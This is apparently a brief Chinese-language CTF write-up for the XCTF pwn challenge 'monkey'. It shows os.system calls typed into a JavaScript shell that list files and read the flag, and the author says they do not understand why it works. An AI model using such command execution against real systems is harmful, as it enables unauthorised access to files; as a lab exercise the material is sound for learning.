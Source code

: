 ```yaml
---
layout: post
title:  monkey
date:   2020-09-29 00:01:01 +0300
image:  2020-09-29-mountain.jpg
tags:   [ctf,Pwn,XCTF]
---
```


这道题就离谱

交互界面

```assembly
js>
```

输入os.system("ls")

```assembly
bin
dev
flag
js
lib
lib32
lib64
libnspr4.so
libplc4.so
libplds4.so
run.sh
```

os.system("cat flag")得到flag

具体什么原理还不是很清楚。。。。。。。。。。。。。